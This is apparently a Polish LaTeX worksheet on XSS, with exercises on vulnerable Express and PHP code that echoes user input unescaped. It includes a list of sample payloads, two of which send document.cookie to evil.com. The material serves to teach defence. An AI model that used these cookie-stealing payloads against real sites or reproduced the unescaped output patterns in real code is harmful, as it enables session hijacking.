 \documentclass[12pt,a4paper]{article}
\begin{document}
Wykorzystując funkcję \emph{html.escape} w pythonie, kodujemy wszystkie znaki specjalne w podanym przez użytkownika wejściu jako ich odpowiedniki tekstowe. Dzięki temu 
jesteśmy w stanie wyświetlić je w kodzie bez problemu, nie umożliwiając na osadzenie złośliwego kodu. 



\subsubsection{Zadania}
 
\begin{enumerate}
  
    \item \textbf{[Łatwy]} Czy poniższy kod Node.js/Express zawiera podatność XSS? 
    Jeśli tak - wskaż konkretną linię. Jeżeli nie, wpisz NIE. Zastanów się, jaki payload sprawiłby wypisanie
    \texttt{alert(1)} w przeglądarce ofiary.
    \begin{tcolorbox}
    \begin{verbatim}
1  app.get('/search', (req, res) => {
2    const q = req.query.q || '';
3    res.send(`
4      <html>
5        <body>
6          <h2>Wyniki dla: ${q}</h2>
7        </body>
8      </html>
9    `);
10 });
    \end{verbatim}
    \end{tcolorbox}
 

 
    \item \textbf{[Łatwy]} Poniżej podano pięć ciągów znaków. Wskaż po kolei, które z nich mogą pełnić rolę skutecznego payloadu XSS
    w kontekście strony HTML.
    \begin{tcolorbox}
    \begin{verbatim}
1) <script>document.location='http://evil.com/?c='
   +document.cookie</script>
 
2) <img src=x onerror=
   "fetch('http://evil.com/?c='+document.cookie)">
 
3) <b>pogrubiony tekst</b>
 
4) <a href="javascript:alert(document.domain)">
   Kliknij</a>
 
5) '; SELECT * FROM users; --
    \end{verbatim}
    \end{tcolorbox}
 
 
    \item \textbf{[Średni]} Poniższy kod PHP wyświetla komentarz podany przez użytkownika bez żadnej sanityzacji. Popraw go,
    stosując funkcję \texttt{htmlspecialchars()} z odpowiednimi flagami. Podaj, które znaki specjalne są kodowane, jak wyglądają
    ich zakodowane odpowiedniki oraz dlaczego samo usunięcie \texttt{<script>} (blacklisting) jest niewystarczające.
    \begin{tcolorbox}
    \begin{verbatim}
<?php
  $comment = $_GET['comment'];
  echo "<div class='comment'>" . $comment . "</div>";
?>
    \end{verbatim}
    \end{tcolorbox}
 

\end{enumerate}
\end{document}
